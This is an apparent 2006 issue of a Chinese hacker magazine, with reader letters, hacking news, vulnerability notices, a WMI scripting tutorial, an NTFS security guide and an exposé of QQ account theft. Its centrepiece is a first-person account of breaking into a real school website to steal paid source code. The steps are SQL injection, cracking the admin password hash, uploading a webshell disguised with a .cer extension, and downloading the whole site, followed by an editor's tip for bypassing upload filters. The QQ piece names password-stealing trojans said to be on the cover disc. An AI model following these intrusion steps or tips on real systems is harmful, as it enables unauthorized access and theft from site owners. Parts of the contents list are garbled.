读后感：这次采访，给我们展现了另一类的黑客和社会发展的必然结果。在我的头脑中黑客的定义是信息共享并无私公布的人，现在读了文章后我很伤心，很悲哀自己想入门却没有好的环境。许多人去捞钱，而技术却进步很慢，也不利于中国网络安全的发展，国家兴亡，匹夫有责，不是我夸大自己的感情，而是真的担心这项事业，我很想自己能自由翱翔在那个古典黑客精神的世界里。

小编：黑客手段演变为商业利用是不可避免的，因为“黑客”们也要吃饭嘛。不过，不要悲哀，还有更多的崇尚自由古典黑客精神的朋友在继续构建这种浩瀚的黑客帝国。

城市／安徽临泉  
论坛ID／拾破烂的  
邮箱／pangzi2046@qqmail.com

—对某篇文章的读后感：  
文章名称：Oday，让 IE 走向死亡  
读后感：最早知道 Oday 是在 05 年秋天，那时候 Oday 的热度挺高，当然现在也并没有丝毫冷却。作者本次详细介绍了 Oday，让黑迷们了解了这个每位黑客都想要得到的钻石。有人说，黑客的精神就是共享，所以 Oday 应该不断地公布；但是，我认为正是因为这些没有公开，还盖有神秘面纱的东西的存在，才让黑客之路更加的神秘和值得探索。

建议和意见：  
对我们《非安全》我有说不尽的话，晚自习后，都是《非安全》陪伴着我，我是一个 14 岁的高二学生，明年我就要参加中科大少年班考试了，我决定大学里继续深入地学习黑客知识。我希望小编能够帮我在杂志中给像我这样的中学生一些忠告，告诉他们现在我们的主要任务是学习知识，争取步入高等学府，读我们《非安全》，应该是在不影响学业的基础上，千万不要影响学习。如果你想深入学习黑客知识，请现在认真学习，争取以后可以深入研究，进入大学深造，最后祝《非安全》销量年年攀升，期期大卖！

小编：真是自古英雄出少年啊，未来的少年大学生喜欢上了黑客。小编莫名地欣慰。“拾破烂的”看的范围比小编更为广阔，思想更高，让小编的思维也多了一些新的元素。

# 黑客手册

黑系漫游指南  
连续黑客 10 年，偷你的边缘人

WWNOHACK.CN  
Mail: nohack@21cn.com  
《黑客防御3D》——目前送货，不得单独得到

## 黑池

完全盛宴

Sina、TOM  
sohu、21CN、163  
126、Yahoo  
国内邮箱再曝跨站漏洞

- [hak]中的密码学算法之 RSA
- y0dri@深入分析信息安全封包加解密
- Freec 绘法分析
- 探索新领域——宽带之窗
- 破解杂类软件 DIY
- 社会工程学之新浪 Blog 挂马与
- 社会工程学之网页博客恶搞访问事件

# 非安全

2006-12 总第10期

- CCTV 视频播放器
- 一见便知安全检测员互联
- [截稿漏]
- 惊爆 IE 最新漏洞
- MS06-055

### 盗Q

地下黑市交易流

- 风一样的...
- 幸福的...
- 断流
- 柯岗娱乐网站系统漏洞
- 深度解构南部码论坛泛卖
- 暴库上传下载黑客聊天室信息
- 新云下载系统
- Shop 系列购物系统安全漏洞
- 攻入南方数据的闪
- 快速的渗透——记对四川理工学院的网站
- 老程序入口新玩
- 渗透长江职业网夜
- 再取巅峰
- 艰难地拿论坛密码
- 友情检测学校
- 失败的入侵——并非毫无

Linux 人物采访：  
桌面新锐势力  
Linuxtoy

- 百款安全工具圣诞精选
- 《地狱少女》第三卷挖掘
- 手动脱壳系列
- 极品意大利舞曲特选
- 微软 MS06067、MS06070 漏洞利用工具

12 月网吧专题：

## 无鱼，岂敢不愚戏你

# 烽火台

大家好！冬天已经来临了！~小迷  
我在这里先友情提示下各位黑友了，要根据温度变化随时添加衣物，不要像小迷我发烧、感冒持续一个星期都没好！

网络这片没有硝烟的战场随着冬季的到来已经走向了白热化，N 多国内知名站点和名人 Blog 先后惨遭毒手；有线网络的安全在不断地经历漏洞和补丁，而现在无线网络也在安全方面出现问题了，更多精彩内容请往下看。

# 新闻概要

**安全焦点被 DDoS 攻击 网站 9 天不能访问**

10 月 28 号 Xfocus 遭遇 DDoS 攻击，被迫关闭 9 天，而且幕后黑手 DDoS 只是为了丢丢某人的脸而已……而且事后两人写了一篇文章对这次 DDoS 事件进行了详细的解说。

**小迷点评：** 当小编我看到这条新闻的时候，沉思了很久，难道出名就那么的重要？难道一定要靠这种事件来让自己名声大震？这种黑客精神是背道而驰的吧。不过还是要感谢两位，让我们学会了如何利用 ASP.NET 备份 db 日志获得 webshell 的知识！

# 新闻快报

**邪恶八进制被黑**

国内著名黑客站点邪恶八进制被黑客入侵，黑客在成功入侵后还修改了论坛主页。目前邪恶八进制的相关人员还没有对此事做出任何回应。

**小迷点评：** 小编我是在第一时间收到消息的，然后马上去邪八看了下，果然是被入侵了。不过根据该黑客的留言，好像是因为私人恩怨，具体原因小迷就不是很清楚了。而且国内的朋友猜测好像是由于黑客利用了某个 0day 成功入侵的，至于这背后的真正原因，就留给大家一个遐想的空间吧。

**朽木的个人博客被黑**

由于入侵 TX 而一举成名的朽木，个人 Blog 被黑客入侵。

**小迷点评：** 我想这就是所谓的人怕出名猪怕壮吧……

**Google、Sina、163、Discuz!、迅雷等网站都遭入侵**

今月网上一些大的门户网站几乎全部遭到黑客入侵，而且严重地影响了门户网站的正常运营，造成不同程度的负面影响。

**小迷点评：** 不知道为什么，这个月 N 多国内知名站点和名人 Blog 先后惨遭毒手，难道说黑客想要在进入冬天后点燃那冬天里的第一把火？

# 漏洞公告牌

## 动易 2006 SP4 版最新漏洞公告

- 漏洞文件：网站根目录下 NewComment.asp
- 漏洞等级：严重
- 影响版本：所有版本（包括免费版、商业 SQL 版及 Access 版）

漏洞描述：此漏洞主要通过 NewComment.asp 存在的注入漏洞，以获取系统管理员权限，并通过修改系统设置上传木马程序，进而控制整个动易系统。特别是对于 SQL 版的系统会造成严重的后果。

解决方案：更新补丁包中的 NewComment.asp 文件。如果你不需要使用评论调用的功能，可以直接删除这个文件。

补丁地址：http://www.powereasy.net/Service/UploadFiles_9292/200610/

## 微软 Internet Explorer 远程窗口劫持漏洞

- 受影响系统：
  - Microsoft Internet Explorer 7.0
  - Microsoft Internet Explorer 6.0 SP2
  - Microsoft Internet Explorer 6.0 SP1
  - Microsoft Internet Explorer 6.0

描述：Internet Explorer 是微软发布的非常流行的 WEB 浏览器。

Internet Explorer 在处理窗口内容的显示时存在漏洞，远程攻击者可能利用此漏洞获取敏感信息。

如果窗口的目标名称是已知的话，则站点可能向其他站点的窗口注入内容。这可能允许恶意站点欺骗在可信任站点所打开的弹出窗口的内容。

厂商补丁：

Microsoft

目前厂商还没有提供补丁或者升级程序，我们建议使用此软件的用户随时关注厂商的主页以获取最新版本：http://www.microsoft.com/windows/ie/default.asp

## D-Link DWL-G132 A5AGU.SYS 设备驱动栈溢出漏洞

受影响系统：D-Link DWL-G132 高性能 802.11g 无线网卡

D-Link DWL-G132 无线网卡的 A5AGU.SYS 驱动存在栈溢出漏洞，远程攻击者可能利用此漏洞在用户机器上执行任意指令。如果所接收到的 802.11 信标请求的 Rates 信息单元大于 36 字节的话，就会触发这个漏洞，导致执行任意代码。由于溢出是通过信标帧触发的，因此攻击范围内的所有网卡都受到影响。

**小逸点评：** 大家如果有使用这款网卡的，可以到 D-LINK 官方网站 http://www.dlink.com/ 查看目前是否有补丁或者升级程序提供。唉！无线网络也不安全了，这不仅让人联想到手机，如果被监听……

# 肉鸡搏龙

**光棍盲语：**

编撰文章的时候刚好赶上 11 月 11 日，传说中的光棍节。11 个大男人晚上 11 点跑出去喝酒，那场景有点小搞笑，又让人有点小郁闷。不知道是不是经常玩电脑的都会是光棍，天天跟机器打交道已经淡化了人类的语言了，很不偶然有个女朋友会像写代码一样简单。可女生大都这辈子最聪明，显然要比电脑快得多，关系结构也复杂得多，kiss(love)!=love(kiss)，不明白吗？脱离光棍？难啊……

## 一、引子

近日准备为学校制作网站，在网上看了许多学校的网站大多采用动力程序进行改造，个人感觉很没有特色，又转了几小时，找到一款很不错的整站系统——《中小学校网站整站系统》。找遍几个大的源码网站，均为共享版，下载后发现有许多的限制，而正式版经搜索得知报价：1500 元。如图 1，能否不花这么一笔钱而得到正式版的代码呢？作为一名网络安全爱好者，当然要想办法了。

## 二、思考

对了，网上肯定有人在使用这正式版本的程序吧！如果我们能将这个网站服务器拿下，这样程序不就到手了？

经过一番搜索，终于让我找到了一个使用了正式版本程序的网站：http://h2r***h2.vicp.net/，是一个小学的网站，目标就选它吧！

## 三、实战

### 1、检测是否存在注入点

我们先来检测该程序本身是否有问题，先来试试看有没有注入点。拿来工具啊 D 注入工具 2.0 破解修正版进行检测，结果没有发现注入点，手动试了几个也没找到。

### 2、检测是否为默认数据库

再试了试管理员是否使用的默认数据库名，很可惜改过了，看来管理员还是有一些安全常识的。

### 3、进行旁注检测

用明小子的旁注 WEB 综合检测程序检测得知该服务器上没有绑定其它域名。（其实从域名 ****.vicp.net 也可得知，这是用的花生壳软件提供的域名解析）

### 4、找到线索

在“友情链接”版块里，发现了一些“学校网站板块”，如图 2。

如果能搞定其中一个，同样可以达到我们的目标，因为这些板块在同一个服务器上，而且是在下一级目录中。

这些板块是用的另外的程序，一般使用的是动力文章系统，但经检测漏洞基本修补过了。（几个板块进入了后台，也没能得到 webshell，动力系统如何在后台得 webshell，哪位知道请告之。）

有一个板块“党建园地”用的程序比较特殊，平时没见过，如图 3。

不会是自己写的程序吧？如果真是，且又找不到什么漏洞，那我的计划估计就此失败了。

### 5、检测到漏洞

先来检测是否存在注入点，用啊 D 注入工具进行检测，发现了两个注入点，如图 4。

但在猜解 admin 表时只找到了 password 和 id 两个字段，用户名字段却不知道是什么，如图 5。

不管这些，先得到密码再说，用户名一会儿就用“admin”来试一试。将得到的 password 的 16 位 MD5 值放到 www.cmd5.com 去跑了一下，很快就出结果了，是：“111111”。马上用“admin”和“111111”来进行管理登录，很可惜的是，并没有成功，看来用户名不是“admin”，如图 6。失望之际，却发现了“将乐万全 mofei_new 1.3”这样几个字，这就是这程序的版权信息了。在百度里搜索了一下，原来是《将乐万全新闻系统 mofei_new v1.3》。于是从网上下载了一套程序，然后打开数据库，才知道原来用户名字段为“usename”，而不是“username”，如图 7。

在网 D 中自行添加了“usename”字段名，很快就跑出了管理员用户名为：sjyfsx。

### 6、得到 webshell

现在终于进入了管理后台，现在要做的就是得到一个 webshell。在后台的“添加新闻”里发现了一个上传的地方，如图 8。试传了一个 asp 木马，但没有成功（当然不会成功，一般程序员这点基本的安全常识是有的）。又改了扩展名为 cer 试了试，居然成功了（无语中……），见图 9、10。

### 7、成功下载源码

如何用 webshell 将整站的文件全部下载回来呢？我想到了海洋的打包功能。于是上传海洋 2006 木马，但访问时却出现了如图 11 所示的情况。

居然作了权限限制，而刚才我们传的木马为何可以访问呢？对，先前的木马是 cer 格式，不在它的范围内。于是将海洋木马改成 cer 格式重新上传上去，终于可以访问了，如图 12。

使用文件夹打包／解开器，对整个文件夹进行打包，如图 13。打包完成，然后访问 http://hz****fx.vicp.net/hytop.mdb 将文件包下载回本地。最后把 unpack.vbs 文件拷到同一文件夹内，运行之，文件包解压还原。我们就得到了整站的所有文件了，如图 14。

提权之类的工作我就不做了，我们是为源码而来，这次也无意于交服务器。我终于省了 1500 元的注册费，不过还是希望大家多多支持程序员的辛苦劳动。

## 四、总结

本文没什么新的技术，就是要在遇到问题时多思考，从多个角度去考虑。有问题请与我联系，我的 ID：elin。

> 编辑点评：暂且不谈入侵的目的，从技术上说，虽然现在的脚本注入方法异常灵活，但只要抓住一个关键——文件上传，复杂的注入也会变得简单，因为只要无法上传，入侵者能危害的顶多也只是数据库安全。而现在很多站点上传限制很不严格，asp 不可以上传，说不定在后面加一个空格就可以了哦……

# 菜鸟玩转 WMI 之基础篇

风飘雨

**栏首：**  
12 月了，风飘来到这里也半年了，时间过得好快，忽然间就难过了。回想起这半年的生活，很辛苦，历经不少波折。我不想虚度光阴，我不知道自己什么时候会变老，虽然说看到公园里老头子老太太一起散步感觉很温馨很幸福，但不知道他们看到夕阳的时候会不会感到凄凉呢？12 月了，《黑客手册》也陪它的读者们走到年末了，期盼新的一年，因为《手册》还年轻，我们都还年轻，不是吗？我们走过不少坎坷，但我们会一直地努力，让我们一起伸出双手，坦然地面对路过的荆刺，就如 JS 说过，不经历过去，怎能预见未来……

- 从本文你可以学到：
  - 什么是 WMI
  - WMI 的应用

Windows 中含有一样很酷的东西，它的名字也许已经被你所熟知，但你却不一定会对它有深入的了解，它往往是被冷落的角色，因为很多人还不了解它真正的实力，它就是“WMI”。只要你不是甘心于做一个微软的普通用户，那么 WMI 会是你有必要了解的东西之一，下面我带大家一起揭开 WMI 神秘的面纱。

## 一、基础知识

也许这些内容有些枯燥，但你会发现，当你深入了解之后，你可以用它们做许多有趣的事情。首先我们要了解的是什么是 WMI。WMI 是“Windows Management Instrumentation”的简写，翻译成中文就是“Windows 管理规范”。它可以控制、监视几乎所有的 Windows 资源，用强大这个词来形容不足为过。

程序员应该都知道，多数工具是通过 API 管理 Windows 资源的，而自从出现 WMI 之后，很多问题都变得简单。它为计算机管理提供了一个更加方便的接口，比如大多数脚本（如 vbs）不能直接调用 Win32 API，而这些脚本却可以通过 WMI 来对计算机进行管理，就目前来看，WMI 最终的应用也是与 WSH、VBScript 等脚本的结合。本文也将以此为例进行说明。

在 Win9x 时代，WMI 只是作为组件安装的，而在 NT 之后，WMI 已成为 Windows 核心技术之一，已经是操作系统的一部分。WMI 中一个重要的概念就是“事件”，你可以把它理解为你所关注的事情，当这件事情发生时，你就会收到 WMI 的通知，WMI 提供了这种机制以便你可以对你感兴趣的事件做出相应的反应。比如使用 WMI，我们可以很容易地做到监视服务器的 CPU 使用率，如果连续一段时间保持在 100% 便自动重启系统。

如图 1 就是 WMI 的基础结构，它也反映了 WMI 的执行流程，而在实际应用中你可以不必在乎这些，一般来说，只要你安装了 WMI 相应的服务，你就可以使用 WMI。

要使用 WMI 需要一个 **WMI 提供程序**，它是你与你要管理的资源之间的中介，Windows 内置了许多提供程序，它们被分组在不同的“命名空间”中。比如，命名空间“root\cimv2”中就包含了大部分表示通常与计算机和操作系统相关联的资源的类，这是应用最广泛的“命名空间”。如果你想更深入地了解，请查阅 MSDN。

WMI 提供了 **WMIC**（Windows 管理规范命令行），管理员可以使用 WMIC 来管理你的计算机，当然这对于普通的管理者来说还不是力所能及的。

WMI 的日志一般存放在“%windir%/system32/wbem/logs”目录中。默认情况下，WMI 生成的是包含错误信息的日志文件，你可以通过将 **HKLM/Software/Microsoft/WBEM/Cimom/Logging** 的值改为 2 来记录更详细的信息，这对你调试 WMI 脚本会有所帮助。将其改为 0 来取消详细记录。

## 二、具体应用

理论太多头会痛，并且有时候我们所关心的也只是实际应用。不过，本文算是最基本的理论基础了。大家如果想深入研究 WMI，还请查阅 MSDN 或是专门的书籍。下面我就举几个简单的例子来演示一下 WMI 的简单应用。你也可以将这些例子修改一下直接应用于你的计算机（本文所有实例为 WMI 在 vbs 脚本中的应用）。

## 监视磁盘空间

这是一个很简单的例子，利用 vbs 脚本，我们可以监视磁盘剩余空间少于某个值时给我们发出报警。我将利用它来对 vbs 中调用 WMI 进行详细的讲解。先看脚本代码：

```vbscript
Const LOCAL_HARD_DISK = 3
strComputer = "."
Set objWMIService = GetObject("winmgmts:" _
    & "{impersonationLevel=impersonate}\\" _
    & strComputer & "\root\cimv2")
Set colMonitoredDisks = objWMIService.ExecNotificationQuery _
    ("Select * from __InstanceModificationEvent within 30 where " _
    & "TargetInstance isa 'Win32_LogicalDisk'" _
    & " and TargetInstance.DriveType = LOCAL_HARD_DISK")
Wscript.Echo "WMI监视脚本……"
Wscript.Echo "开始监视……"
Do While i = 0
    Set objDiskChange = colMonitoredDisks.NextEvent
    If objDiskChange.TargetInstance.DriveType = LOCAL_HARD_DISK Then
        If objDiskChange.TargetInstance.Size < 100000000000 Then
            Wscript.Echo "Hard disk space is below 100000000000 bytes"
        End If
    End If
Loop
```

脚本中的 100000000000 就表示要监视的剩余空间大小，这里是 100G（为了举例方便）。将上面这段脚本保存为 test.vbs。

然后运行，脚本就会开始监视，如图 2。为了让大家能够看到执行过程，我采用 cscript 运行脚本。

这时你往硬盘里狂写东西，当剩余空间少于 100G 时，系统就会弹出如图 3 的报警。而在 cscript 中运行的脚本也出现如图 4 的报警。

下面我们就来分析一下脚本的运作。其中最关键的就是使用 WMI 来监视磁盘空间。

其中“strComputer = "."”表示了要应用这个脚本的计算机名，（WMI 是可以管理远程计算机的，这些不在本文讨论范围）。“strComputer = "."”则表示“使用本地计算机”。

下一行：

```vb
Set objWMIService = GetObject("winmgmts:" _
    & "{impersonationLevel=impersonate}!\\" _
    & strComputer & "\root\cimv2")
```

表示创建了一个 WMI 的连接，并将其保存在 objWMIService 中。如果你学习过编程，了解对象的概念，那这句代码你应该能够明白。可以看出，创建的这个连接使用的就是上文提到过的 WMI 名称空间“\root\cimv2”。

接下来的代码：

```vb
Set colMonitoredDisks = _
objWMIService.ExecNotificationQuery _
    ("Select * from __InstanceModificationEvent within 30 where " _
    & "TargetInstance isa 'Win32_LogicalDisk'")
```

主要是构成一个 WMI 查询，这有些类似 SQL 的查询。我们就用它来表明我们所关注的“事件”，你甚至可以抽象地理解为系统中有一个巨大的数据库，里面记录了计算机的所有信息，当然包括磁盘空间，而我们就从中查询出磁盘剩余空间的值，然后进行比较判断。其中的“within 30”表示查询间隔时间为 30 秒，你可以自行修改。而“__InstanceModificationEvent”表示对调整事件进行监视，在其他监视中这个值可能会不同，因为有时候我们所关心的并不是调整，而是创建或删除，这时就要用 __InstanceCreationEvent 或 __InstanceDeletionEvent 了。

后面三行代码只是一个开关和两条提示信息，然后是一个 while 循环，这是 VBS 的语法了。目的是让程序能不停地监视，而不是弹出一次提示后就停止。

“Set objDiskChange = colMonitoredDisks.NextEvent”这是一个很重要的代码，它将使脚本处于暂停状态，直到程序接收到了一个事件。也就是将脚本挂起，等待用户所关心的事件（就是上面查询的事件）的发生，再往下执行。这样当硬盘使用空间改变时，脚本就会继续执行到下面的 If，这句就是简单地判断现在的剩余磁盘大小了，如果超过预定就发出报警。

执行完成之后脚本便 loop 到下一个循环继续监视。

# 三、总结

从这个例子中你可以看出 WMI 的一般用法了，像服务、日志、进程等资源的管理模式也类似，你可以通过调用不同的方法对系统进行控制和监视。这些需要你在以后的学习中慢慢地积累了。你也可以将 WMI 运用到你的程序中去实现一些平时很难实现的功能，做一些很有趣的事情，比如监视 U 盘的插入然后……很多 U 盘病毒就是这么干的，当然我不会教大家怎样去编写一个 U 盘病毒，那是编程板块要做的事。但我会在下期实例篇中给大家带来更多更好的应用实例，你根据自己的需要制定一个 WMI 脚本，还有 WMI 的高级应用。

> [文中的 test.vbs 在光盘中有提供]

# 编辑点评

也许理论有些晦涩难懂，不过没关系，通过下一篇的实例我们会更好地理解。下期我也会给出监视 U 盘的代码，有兴趣的读者自己玩吧，呵呵。WMI 似乎总是被人们忽略。风歌给你一句忠告，如果你想在计算机方面有所成就，WMI 不需要精通，但了解是必须的。

对于 Windows 操作系统的使用者来说，NTFS 应该是一个很熟悉的名词了，它的全称为“New Technology File System”，属于 NT 系列操作系统的标准文件系统。它与 FAT 文件系统最主要的区别在于：支持元数据（Metadata），可利用先进的数据结构构建更好的性能、稳定性和磁盘利用率。使用 NTFS 保护硬盘上的文件和目录的安全之前，必须选择 NTFS 文件系统将硬盘分区格式化。

# 一、贴身保护：NTFS 格式与文件安全

在本地文件安全和性能管理上，NTFS 表现十分突出，具体如下：

- 主要内容
  - 1. 贴身保护：NTFS 格式与文件安全
    - 1. 细致周到的磁盘安全管理功能
    - 2. 严格分明的文件权限保护
    - 3. 无微不至的文件加密功能
    - 4. 错误预警、自我修复和日志功能
  - 2. 寻找 NTFS 文件安全保护中的秘密武器
    - 1. 寻找 NTFS 文件安全中的“钥匙”
    - 2. 最后一道防线：巧妙寻找丢失的文件

## 1、细致周到的磁盘安全管理功能

在 NTFS 文件系统下，可以针对磁盘进行多方面的安全管理，包括：磁盘配额管理、动态文件安全管理、磁盘管理限制等。

1）磁盘配额管理。说到磁盘配额，我们很容易联想到购买虚拟主机时，空间商为用户提供的空间限制，这样每个用户只能根据最大配额使用磁盘空间。这样，就能合理分配存储资源，避免系统崩溃或文件丢失。设置时，打开“我的电脑”，在磁盘驱动器图标上单击鼠标右键，选择“属性”选项，在弹出菜单中点击“配额”选项进入配额选项面板，然后选择“启用磁盘配额”。在这里，就可以进行精确的配额限制了。点击下方的“配额项”按钮，可以进入具体设置，在这里可新建、修改和删除配额项，设置警告等级。如图 1 所示。

2）动态文件安全管理。在平时的使用过程中，如果某个分区包含重要的文件信息，但此分区的容量又十分有限，怎么办？这个时候，NTFS 文件系统的动态磁盘管理功能就起到作用了。通过它，可以创建动态镜像分区，提升逻辑容量。以 Windows XP 为例，步骤如下：

- 第一步：直接在“运行”中输入 `diskmgmt.msc`，或者打开“控制面板”下的“管理工具”，双击“计算机管理”图标，在弹出的窗口中选择“磁盘管理”。
- 第二步：在某个分区上单击右键并选择“更改驱动器名和路径”，然后点击“删除”。注意，这样只是去除了 F 分区的访问路径，并没有删除其中的数据。
- 第三步：点击“添加”，并选择“装入以下空白的 NTFS 目录中”，在下面文本框中输入路径或点击“浏览”指定目录，假设目录为 E 分区中的 aspnet 目录，然后逐层按“确定”即可。
- 第四步：直接在 E 分区上通过 aspnet 目录使用 F 分区。而且加载分区是没有格式和磁盘限制的，操作十分方便。如图 2 所示。

此外，与 FAT 格式所支持的有限分区容量相比，NTFS 文件系统不易产生碎片，单个文件最大支持 16TB（1TB=1024GB），因此能够满足日益扩大的存储要求。

## 2、严格分明的文件权限保护

通过 NTFS 文件权限，可以轻松实现对文件夹及文件级别的安全控制。使用了 NTFS 分区以后，**你必须为需要访问一个资源的每一个用户账号授予 NTFS 权限，用户必须获得明确的授权才能访问经过设置的资源。**如果没有权限，那么它将被拒绝访问该资源。进行权限设置时，用户需要更改默认的文件简单共享方式，选择“工具”菜单下的“文件夹选项”，进入“查看”选项卡，将“使用简单文件共享”前的复选框勾除即可。

标准 NTFS 文件夹权限的类型有：读取、写入、列出文件夹目录、读取与运行、修改、完全控制等。用户权限的使用规则包括：权限的继承和累加性，“拒绝”权限会覆盖所有其他权限等。现在，右键选择需要进行权限设置的文件或文件夹，在弹出的快捷菜单中选择“属性”，单击“安全”选项卡即可进行相关设置。此外，在“安全”选项卡中，单击“高级”按钮还可进行单项权限的设置。如图 3 所示。

## 3、无微不至的文件加密功能

NTFS 的 EFS 数据加密功能提供透明加密，即对具有访问权限的用户来说是透明的。具体加密方法是，打开要加密的文件或文件夹的“属性”对话框，选择其“常规”页中的“高级”，选择“高级属性”里的“加密内容以便保护数据”选项并单击“确定”按钮即可。如图 4 所示。

## 4、错误预警、自我修复和日志功能

NTFS 还有很多其他的安全功能，如稀疏文件、重装入点、卷装入点等，而且大部分都是在后台工作的。正是这些幕后的强大支持，使得 NTFS 格式具有强大的错误提示和自我修复等安全保护功能，可以解决扇区损坏后导致的文件系统瘫痪问题。此外，如果分区引导代码中指向 MFT 的部分出现错误，NTFS 文件系统可能会失去向导，从而会报告“磁盘没有格式化”这样的错误信息。为了避免这种情况，分区引导代码中会包含一段校验程序，专门负责侦错。

2）磁盘自我修复功能。NTFS 利用一种“自我疗伤”的系统，可以对硬盘上的逻辑错误和物理错误进行自动侦测和修复。每次读写时，它都会检查扇区正确与否。当读取时发现错误，NTFS 会报告这个错误；当向磁盘写文件时发现错误，NTFS 将会十分智能地换一个完好位置存储数据，操作不会受到任何影响。这样可以较早地发现错误，减少损失。

此外，NTFS 系统还提供了事件日志功能，它能够监督所有事件，让系统知道任务完成的情况，保证系统不会因为断电等突发事件发生紊乱，最大程度降低了破坏性。

# 二、寻找 NTFS 文件安全保护中的秘密武器

## 1、寻找 NTFS 文件安全中的“钥匙”

如果对 NTFS 分区中的数据进行了加密，通过制作备份密钥可以达到很好的安全保护作用。密钥的制作方法如下。

首先，单击“开始→运行”命令，在打开的运行对话框中输入 `certmgr.msc` 后按下回车键，打开证书管理器。在“当前用户→个人→证书”分支下，就可以看到以用户名为名称的证书。需要注意的是，如果还没有在 NTFS 分区上加密任何数据，这里不会产生证书。

其次，用鼠标右键单击这个证书，选择“所有任务”下的“导出”命令。询问是否导出私钥时，选择“导出私钥”即可，其他的选项均保留默认设置，这时会产生一个以 PFX 为后缀的文件。文件中的私钥一定要妥善保存。需要注意的是，如果没有备份密钥，一旦操作系统出现问题需要重新安装，那么仅用相同的用户名是无法访问 NTFS 分区上的加密数据的。

## 2、最后一道防线：巧妙寻找丢失的文件

在日常工作中，误操作或者病毒感染文件的情况都可能导致文件丢失。如果出现硬盘不能被操作系统辨认的情况，或者根目录或者其他目录已经丢失时，就很难找回这些文件了。但是，在 NTFS 系统中，这些情况可以得到明显的改善。例如，通过 **GetDataBack** 等软件，就可以轻松实现还原数据的目的。软件下载地址为：http://www2.skycn.com/soft/751.html。

类似的软件还有 Smart NTFS Recovery，这款恢复工具能够将储存在 NTFS 格式媒体上不小心误删的文件救回，作为使用者重要数据的最后一道防线。在使用之前，只需指定要恢复的储存媒体即可。此外，Smart NTFS Recovery 还能够支持如 U 盘、磁盘、ZIP 之类的储存媒体，使用起来十分方便。软件下载地址为：http://www.smartpctools.com。

在文件安全保护过程中，NTFS 是一个十分重要的组成部分。尤其在日常的文件加密、文件权限管理等过程中，我们都需要积极地利用它，从而使文件的安全性大大提高。

> **编辑点评：**
>
> NTFS 文件系统的优势是显而易见的，像权限设置、EFS 这些也都是菜鸟要具备的最基本的技能。NTFS 是很优秀，但世上没有完美的东西，比如 NTFS 下元数据就可以被利用来隐藏病毒木马，NTFS 还有很多东西让我们去探索。

> **Rain 栏堂语：**
>
> 盗号破解器，技术被用在这上面的确让人心寒。从很久以前网游被“塞内裤”，到后来的百变星空，到银行卡以及各种网络账号，当技术与金钱碰撞的时候，有多少人会守住心灵中的那一份净土呢？走在钢筋水泥间会让人窒息，利益，已经是这个时代的代名词。所以开始珍惜朋友间肩搭背大步向前的洒脱。有一天你会面对这个选择。你知道 hacker 这个词的内涵，所以，离你害怕你的朋友，你永远不会令他们失望，心黑客之名！

在当今网络盛行的时代，QQ 成为了不可或缺的即时通讯工具。然而随着黑客的风靡，盗取 QQ、窃取宽带账号密码开通 QQ 各项服务等行径已经成为了小黑羿最为热衷追逐的技术。除了好奇兴趣之外，这些活动愈演愈烈的原因自然就是能获取非法利益。

今天我就给大家揭开这个黑幕，看看这些人是如何盗 Q 以及窃取宽带账号密码来开通 QQ 各项服务，从而获取非法利益的。

# 一、盗 Q 篇

相信很多人都有过 QQ 被盗的经历吧，那么黑客是怎么盗取别人 QQ 号码的呢？

首先要说的是盗 Q 的木马，现在网上比较流行的盗 Q 木马有：**Q 冲击波、盗 Q 黑侠、阿拉 Q 大盗、上兴盗 Q 王**等等。这些木马功能相当全面，可以获取 QQ 上的各种信息，如：等级、积分、QB、有无密码保护、登录 IP 等。它们基本都可以通过信箱和 ASP 收信。

以下是几个版本的盗 Q 木马的界面。如图 1、图 2。生成的木马经过免杀处理以后能通过各种方式传播，常见的有 BT 挂马、百度贴吧、迅雷、酷狗挂马等，这主要是利用了 P2P 软件资源共享的原理。最恐怖的是网页挂马，有些安全性较低的大站，很有可能就被挂了马，在你浏览网页的时候就会不知不觉地中了招。

ASP 收信是现在木马采用的主要收信方式，账号和密码一般被保存在跟收信 ASP 文件同目录下的一个 TXT 文件中（也有使用数据库的），如图 3 所示。

图 3 所示的这个文件就是黑话所谓的 Q 信封。收信的数量和被挂马的站访问量有关系。这些人盗取了这么多的 Q 号有什么用呢？

这个 Q 信封可谓是个“宝贝”。一般一封信是 1W 个 Q 号码，可以卖到 150RMB 左右。买了这些信封的人，用工具扫出里面有 QB 和无密码保护的号码。这就是黑话所谓的“洗信”。常见的“洗信”工具有：JQQ、PQQ、VQQ、DQQ。名字不同但大概功能相似，这种软件一般都为收费版本，价格由几十到几百不等，可以批量查询 QB、密保、积分等信息。如图 4、图 5 所示。

由于腾讯允许 Q 用户通过登录 http://my.qq.com，并利用个人账户为他人赠送各种服务，所以这就给洗 QB 的人带来了方便。一般一个服务是 10QB/月，他们把账户上大于 10 个 QB 的 QQ 号码拿去交易论坛或者淘宝、易趣等地方，去出售 QQ 的这个服务。一个服务可以卖 2.5 到 3.5 元之间，价格的浮动取决于查询软件能否及时限制腾讯的升级而浮动。还有一些 Q 的账号上不足 10QB 的，称之为散币，黑客们把散币拿去为他人购买 Q 秀或者游戏币，以便进一步获取利润。被洗完 QB 的号码，接下来就要查询是否有密码保护了，如果没有密码保护的号码，则这些人根据 QQ 位数的多少、级别的高低等因素卖不同的价格。如图 6 便是一次查询的结果。

目前一个 5 位的无保号码可以卖到上千元；一般 6 位的也在 200-400 元不等；7 位的 10-50 元左右。当前有此交易的论坛最牛的是安兴论坛，其次应该是 Q 练休闲论坛。看了以上的叙述，大家对这个盗 Q 经济链有了比较直观的了解了吧。下面我们来看看到底他们如何刷 QQ 业务的。

# 二、刷业务篇

由于电信宽带用户可以直接登录互联星空主页去开通 Q 的各种业务和对 Q 账户充值，这给利用代理盗用他人宽带账号密码的人提供了便利之门。虽然互联星空一次又一次地升级，但始终不能把这些人拒之门外，正所谓“道高一尺，魔高一丈”。他们利用一些端口扫描工具和代理测试工具疯狂地盗用他人账号，如图 7 则是用灰鸽子来开启服务端的代理功能。一般淘宝、易趣上那些出售服务的都是非法途径得来的，你仔细想想谁会自己花 10 元开个服务，而卖给你却只收 2、3 元呢？

# 三、总结

奉劝那些靠此糊口的朋友，放下屠刀，把你的技术用在正确的道路上。这里引用楼捷定的一句话：“当然，我不反对靠技术挣钱。但有你怎么挣，写文章、教技术不是很好的事吗？”也许没有你“黑掉挂马”挣得多，但是你有没有想过，你正在走的是一条什么路呢？我想，这应该是一条毁灭之路！

> 【文章涉及到的软件：盗 Q 黑侠、上兴盗 Q 王、jcqnt 秋风版、查密保工具、灰鸽子 vip，在光盘中有提供】

